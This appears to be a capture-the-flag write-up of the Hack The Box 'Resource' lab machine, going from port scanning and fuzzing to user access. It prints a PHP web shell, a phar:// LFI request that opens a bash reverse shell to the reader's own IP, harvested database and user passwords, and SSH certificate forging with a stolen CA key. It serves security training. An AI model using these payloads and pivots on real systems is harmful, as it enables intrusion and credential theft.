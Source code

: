 ```yaml
---
title: "Resource - Hack The Box Machines"
date: 2024-08-08 08:00:00 - 0500
categories: [Hack The Box, Machines]
tags: [htb, machine, web, resource, seasonvi]
image: 
  path: /assets/img/posts/htb/resource-htb.png
---
```



## Reconnaisance

![Desktop View](/assets/img/posts/htb/e83ac2321955bd2e0beb788d47fa5ae9.png){: width="972" height="589" }
_Resource HTB Season VI_

Hello, everyone! 👋 Welcome back. This is the first machine challenge of `Season VI` and it has a medium difficulty level. As with many previous attempts to pwn a box, I will use the `nmap` tool to scan the target machine and determine which ports are open.

```bash
[user@machine] - $ nmap -p- 10.10.11.x -T4 --min-rate=1000 -Pn --disable-arp-ping -oN nmapscan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 10:59 EDT
Warning: 10.10.11.x giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.x
Host is up (0.073s latency).
Not shown: 63965 closed tcp ports (conn-refused), 1567 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 104.88 seconds
```
{: .nolineno }


With the initial scan, I determined that three ports are open on the target machine: 22, 80, and 2222.

```bash
[user@machine] - $ nmap -p22,80,2222 -sC -sV 10.10.11.x

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-04 12:10 EDT
Nmap scan report for 10.10.11.x
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://itrc.ssg.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.22 seconds
```
{: .nolineno }

From the nmap scan report, we can see that the target machine has the following open ports and services:
- Ports open:
    - 22/tcp: SSH service (OpenSSH 9.2p1 Debian)
    - 80/tcp: HTTP service, redirect to `http://itrc.ssg.htb/` and has an `nginx/1.18.0` server header.
    - 2222/tcp: SSH service (OpenSSH 8.9p1 on Ubuntu)

I am wondering why there are two SSH services open on different ports for two different versions of OpenSSH?<br>
Use this command to add an IP and hostname to file `/ect/hosts`

```bash
[user@machine] - $ echo "10.10.11.x itrc.ssg.htb" | sudo tee -a /etc/hosts
```
{: .nolineno }

Next, I accessed the target machine on port 80 at `http://itrc.ssg.htb`, which led me to an IT Support Center page. Reading the introduction section on the website, it mentions `Managing SSH Access`, ...


![Access web](/assets/img/posts/htb/ZUcp4D5uDq.png){: width="972" height="589" }
_Access webpage on port 80_

Next, to see what this website does, I need to register an account and log in.

![Access web](/assets/img/posts/htb/I3ioT1nYNb.png){: width="972" height="589" }
_Login page_

![](/assets/img/posts/htb/774Jbz1Bra.png){: width="972" height="589" }
_Dashboard page_

Use ffuf to `fuzz` the `page` parameter.
```bash
[user@machine] - $ ffuf -u http://itrc.ssg.htb/index.php/\?page\=FUZZ  -w ~/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt -fs 3120 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://itrc.ssg.htb/index.php/?page=FUZZ
 :: Wordlist         : FUZZ: /home/natsu/workspace/machine/SecLists-master/Discovery/DNS/n0kovo_subdomains.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 3120
________________________________________________

admin                   [Status: 200, Size: 1331, Words: 136, Lines: 26]
login                   [Status: 200, Size: 2709, Words: 239, Lines: 44]
register                [Status: 200, Size: 2842, Words: 255, Lines: 45]
dashboard               [Status: 200, Size: 1331, Words: 136, Lines: 26]
db                      [Status: 200, Size: 2276, Words: 158, Lines: 35]
ticket                  [Status: 200, Size: 1331, Words: 136, Lines: 26]
index                   [Status: 200, Size: 2276, Words: 158, Lines: 35]
logout                  [Status: 200, Size: 2627, Words: 196, Lines: 39]
```
{: .nolineno }

Accessing the `page=admin`, I see several tickets with subjects such as `Malware in finance dept` and `SSH Key Signing Broken`, but I cannot access most of these tickets to view their detailed contents.

And one notable thing is that under Admin Tools, I see `Contact zzinter for manual provisioning`

![Access web](/assets/img/posts/htb/wl6B6DycYy.png){: width="972" height="589" }
_Access web at admin page_

Going back to the dashboard, I tried to create a ticket with the subject `New ticket` and uploaded a ZIP file.
![](/assets/img/posts/htb/VT7KF8aPSu.png){: width="972" height="589" }

When I right-clicked on the `file.zip` location, I saw that the uploaded file is stored at the path: `itrc.ssg.htb/uploads/a00308c0438df0f0cb98f5261ca9124e57fcd1ed.zip`
![](/assets/img/posts/htb/f4fL4Yfuzg.png){: width="972" height="589" }

Looking at the filename, it appears to be some sort of hash, and it is indeed a SHA-1 hash.
![](/assets/img/posts/htb/ePZVwFwTED.png){: width="972" height="589" }
_sha1sum file.zip_

After uploading a regular ZIP file, I tried uploading an empty file to see if any errors occurred.
In the response, I noticed that two functions mentioned in the misreporting are `ZipArchive::open()` and `hash_file()` in the file `/var/www/savefile.inc.php`

![Access web](/assets/img/posts/htb/AhbMSzXGYE.png){: width="972" height="589" }
_Upload empty file zip_

## LFI loophole 
![Access web](/assets/img/posts/htb/sT30Q7ekyj.png){: width="972" height="589" }
_Access file in /var/www/itrc_

Test the LFI loophole with some protocols like `file`, `dict`, `phar`: `itrc.ssg.htb/?page=file:///var/www/itrc/create_ticket`.
![Access web](/assets/img/posts/htb/ajWwYf5yLu.png){: width="972" height="589" }
_LFI loophole_

## RCE www-data
Upload file shell and RCE

```bash
<?php
	system($_GET["cmd"]);
	__HALT_COMPILER();
?>
```
{: .nolineno }

```bash
$ zip shell.zip shell.php
$ sha1sum shell.zip
```
{: .nolineno }

```
http://itrc.ssg.htb/?page=phar://uploads/aee15c9bfb55e6c04a49b57d2c62a215f62e1d26.zip/shell&cmd=/bin/bash+-c+%27/bin/bash+-i+%3E%26+/dev/tcp/<your ip>/9001+0%3E%261%27
```
Listen and get reverse shell.
![](/assets/img/posts/htb/5zT91t6m6p.png){: width="972" height="589" }
_Reverse shell_

```bash
www-data@itrc:/var/www/itrc$ cat db.php

<?php

$dsn = "mysql:host=db;dbname=resourcecenter;";
$dbusername = "jj";
$dbpassword = "ugEG5rR5SG8uPd";
$pdo = new PDO($dsn, $dbusername, $dbpassword);

try {
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
    die("Connection failed: " . $e->getMessage());
}
```
{: .nolineno }

![Access web](/assets/img/posts/htb/HikHECRoHm.png){: width="972" height="589" }
_Home folder_

## msainristil@itrc

As mentioned earlier in the admin page, we saw several tickets that had already been created, and upon checking the uploads directory, I found multiple ZIP files. It's possible that, besides the files I uploaded, the remaining files were uploaded by those tickets.

I used zipgrep to check if any of these ZIP files contain sensitive information.

```bash
$ for zipfile in *.zip; do zipgrep "msainristil" "$zipfile"; done

"user=msainristil&pass=82yards2closeit"
```
{: .nolineno }
![Access web](/assets/img/posts/htb/eNkVNvGhaF.png){: width="972" height="589" }
_User msainristil_

SSH to target machine with username and password `msainristil:82yards2closeit`


![Access web](/assets/img/posts/htb/ObNMYEca1Y.png){: width="972" height="589" }
_SSH user msainristil_

![Access web](/assets/img/posts/htb/IDhUIWevhR.png){: width="972" height="589" }
_Certificate CA_

## zzinter@itrc 

```bash
$ ssh-keygen -t rsa -b 2048 -f yzx
$ ssh-keygen -s ca-itrc -I ca-itrc.pub -n zzinter yzx.pub
$ ssh-keygen -Lf yzx-cert.pub
$ ssh -o CertificateFile=yzx-cert.pub -i yzx zzinter@localhost
```
{: .nolineno }

![Access web](/assets/img/posts/htb/EquSHNMrMP.png){: width="972" height="589" }
_Get user flag_


